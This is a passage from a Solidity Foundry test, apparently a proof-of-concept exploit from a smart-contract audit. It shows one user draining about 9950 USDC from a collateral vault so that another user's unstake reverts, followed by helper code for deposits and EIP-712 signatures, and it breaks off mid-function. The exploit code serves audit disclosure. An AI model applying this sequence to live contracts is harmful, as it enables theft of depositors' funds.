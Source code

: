 ```
    console2.log(&quot;user 0 available vault balance gained: %s USDC&quot;, (vaultBalanceAfter-vaultBalanceBefore) / (10 ** 6));

    uint256 user0USDCbalBefore &#x3D; IERC20(USDC).balanceOf(users[0]);
    uint256 withdrawable &#x3D; colVault.getAccountCollateralBalance(users[0],USDC).available;
    vm.prank(users[0]);
    colVault.withdraw(USDC, withdrawable, users[0]);
    uint256 user0USDCbalAfter &#x3D; IERC20(USDC).balanceOf(users[0]);
    console2.log(&quot;user 0 USDC gained: %s USDC&quot;, (user0USDCbalAfter-user0USDCbalBefore) / (10 ** 6));
    //user 0 withdraws from 9950 USDC from the vault and gets away with the money.
    

    tbcp.releaseEligibleTokens(users[1],tokenss);

    //User 2 releaseEligibleTokens reverts because not enough TBCP available funds remain
    //in collateralVault to cover their unstake (due to the funds stolen by user 0).
    vm.expectRevert();
    tbcp.releaseEligibleTokens(users[2],tokenss);
}

function poolerDepositAndStake(address token, uint256 amount, uint256 privKey, uint256 nonce) internal {
    address pooler &#x3D; vm.addr(privKey);
    vm.startPrank(pooler);
    IERC20(token).approve(address(colVault), amount);
    bytes memory sig &#x3D; signApproval(address(timedPoolProxy), token, amount, nonce,privKey);
    TimeBasedCollateralPool(address(timedPoolProxy)).depositAndStake(IERC20(token),amount,sig);
    vm.stopPrank();
}

function signApproval(address approvedCont, address approvedToken, uint256 amount, uint256 nonce, uint256 privKey) internal returns (bytes memory signature) {
    bytes32 structHash &#x3D; 
        keccak256(
            abi.encode(
                COLLATERALIZABLE_DEPOSIT_APPROVAL_TYPEHASH,
                approvedCont,
                approvedToken,
                amount,
                nonce
            )
        );
    bytes32  EIP712_DOMAIN_TYPEHASH &#x3D; keccak256(&quot;EIP712Domain(string name,string version,uint256 chainId,address verifyingContract)&quot;);
    bytes32 DOMAIN_SEPARATOR &#x3D; keccak256(
        abi.encode(
            EIP712_DOMAIN_TYPEHASH,
            keccak256(&quot;CollateralVault&quot;),
            keccak256(&quot;1&quot;),
            1,
            address(colVault)
        )
    );

    bytes32 digest &#x3D; keccak256(
        abi.encodePacked(
            &quot;\x19\x01&quot;,
            DOMAIN_SEPARATOR,
            structHash
        )
    );

```